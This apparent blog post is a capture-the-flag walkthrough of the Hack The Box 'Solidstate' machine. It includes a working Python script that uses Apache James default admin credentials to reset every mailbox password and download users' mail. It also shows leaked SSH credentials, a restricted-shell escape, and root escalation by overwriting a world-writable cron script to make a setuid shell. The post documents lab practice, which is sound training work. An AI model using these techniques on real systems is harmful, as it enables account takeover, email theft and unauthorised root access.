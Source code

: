 ```yaml
---
title: "HTB - Solidstate write up"
date: 2018-01-25T08:59:59Z
tags: ["CTF"]
---
```


This box was fairly easy but it had a new technology I've never heard of before called "Apache James".

If you run a basic nmap with all ports, default scripts, service and OS identification like this
**nmap -p- -A  10.10.10.51 -vv**

you will find the following ports open:
{{< highlight html >}}
PORT     STATE SERVICE     REASON         VERSION
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        syn-ack ttl 63 JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.15.125 [10.10.15.125]), 
80/tcp   open  http        syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        syn-ack ttl 63 JAMES pop3d 2.3.2
119/tcp  open  nntp        syn-ack ttl 63 JAMES nntpd (posting ok)
4555/tcp open  james-admin syn-ack ttl 63 JAMES Remote Admin 2.3.2
{{< / highlight >}}

After a quick google for Apache James 2.3.2 exploits we find <a href="https://www.exploit-db.com/exploits/35513/">this</a> the exploit is able to overwrite/create files such as /etc/bash_completion.d with a payload we specify, I tried this out with no luck, pressumably because no one was logged in so th bash completion never triggered.

After studying the exploit I decided to build something to change the smtp passwords of all the users so I could read their email, it look as follows:

{{< highlight python >}}
import telnetlib
import poplib
import email
import os

user = "root"
password = "root"
host = "10.10.10.51"
port = 4555
tn = telnetlib.Telnet(host,port)
tn.read_until("Login id:")
tn.write(user+"\n")
tn.read_until("Password:")
tn.write(password + "\n")
tn.read_until("commands")
tn.write('listusers\n')
user_count_regex = tn.expect([r"Existing accounts \d"])
user_count = user_count_regex[2]
user_count =  int(user_count.split(" ")[2])

user_list = []
for i in range(0, user_count+1):
    current_user = tn.read_until("\n").replace("user: ","")
    current_user = current_user.strip()
    if current_user != "":
        user_list.append(current_user)
for email_user in user_list:
    print "[+] resetting password of " + email_user
    tn.write("setpassword " + email_user + " highjack\n")
    tn.read_until("reset")
    
    mail = poplib.POP3(host)

    #Login to mail server
    mail.user(email_user)
    mail.pass_("highjack")

    #Get the number of mail messages
    numMessages = len(mail.list()[1])

    print "[+] found %d messages for %s" % (numMessages, email_user)
    current_folder =  os.getcwd()
    print "[+] saving emails to " + current_folder + "/" + email_user
    try:
        os.makedirs(email_user)
    except:
        pass
    for i in range(numMessages):
        for j in mail.retr(i+1)[1]:
            msg = email.message_from_string(j)
            fp = open(email_user+"/"+str(i)+".txt","a")
            fp.write(msg.get_payload())
            fp.close()
{{< / highlight >}}

When we run the script we get the following output:
{{< highlight html >}}
[root:~/notes]# python change-passwords.py
[+] resetting password of james
[+] found 0 messages for james
[+] saving emails to /media/sf_shared/notes/james
[+] resetting password of ../../../../../../../../etc/bash_completion.d
[+] found 7 messages for ../../../../../../../../etc/bash_completion.d
[+] saving emails to /media/sf_shared/notes/../../../../../../../../etc/bash_completion.d
[+] resetting password of thomas
[+] found 0 messages for thomas
[+] saving emails to /media/sf_shared/notes/thomas
[+] resetting password of john
[+] found 1 messages for john
[+] saving emails to /media/sf_shared/notes/john
[+] resetting password of mindy
[+] found 2 messages for mindy
[+] saving emails to /media/sf_shared/notes/mindy
[+] resetting password of mailadmin
[+] found 0 messages for mailadmin
[+] saving emails to /media/sf_shared/notes/mailadmin
[+] resetting password of /../../../../../../../etc/bash_completion.d
[+] found 5 messages for /../../../../../../../etc/bash_completion.d
[+] saving emails to /media/sf_shared/notes//../../../../../../../etc/bash_completion.d
{{< / highlight >}}


Browsing through the downloaded emails we find interesting information included Mindy's credentials:
{{< highlight html >}}
[root:~/notes/john]# cat 0.txt 
John, Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.Thank you in advance.Respectfully,James#

[root:~/notes/mindy]# cat 0.txt 
Dear Mindy,Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.We are looking forward to you joining our team and your success at Solid State Security. Respectfully,James

[root:~/notes/mindy]# cat 1.txt
Dear Mindy,Here are your ssh credentials to access the system. Remember to reset your password after your first login. Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. Respectfully,James

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
{{< / highlight >}}

After logging into ssh as Mindy, we notice that the shell is restrictive bash, luckily for us it's pretty easy to bypass it:
{{< highlight html >}}
mindy@solidstate:~$ echo $SHELL
/bin/rbash

[root:/media/sf_shared/notes]# ssh mindy@10.10.10.51 bash
mindy@10.10.10.51's password: 
python -c 'import pty; pty.spawn("/bin/bash")'  
mindy@solidstate:~$ 
{{< / highlight >}}

While trying to elevate privileges I found a writable file at /opt/tmp.py it's owned by root and based on the content it looks like the kind of script that would run as a cron to clear out tmp.
{{< highlight html >}}
mindy@solidstate:~$ find / -writable -type f 2>/dev/null  
/opt/tmp.py

mindy@solidstate:~$ ls -al /opt/tmp.py
ls -al /opt/tmp.py
-rwxrwxrwx 1 root root 136 Jan 26 17:32 /opt/tmp.py
{{< / highlight >}}

All /opt/tmp.py is wipe out the contents of /tmp this looks like the type of behavior you'd expect in a cronjob, so it makes sense to try to overwrite it with our own script:
{{< highlight html >}}
echo 'import os' > /opt/tmp.py
echo 'os.system("cp /bin/sh /tmp/highjack") >> /opt/tmp.py'
echo 'os.system("chmod 4755 /tmp/highjack") >> /opt/tmp.py'
{{< / highlight >}}

Now we just need to wait for the cronjob to trigger and run our new shell to get root:
{{< highlight html >}}
mindy@solidstate:~$ /tmp/highjack
/tmp/highjack
# id
id
uid=1001(mindy) gid=1001(mindy) euid=0(root) groups=1001(mindy)
# whoami
whoami
root
{{< / highlight >}}

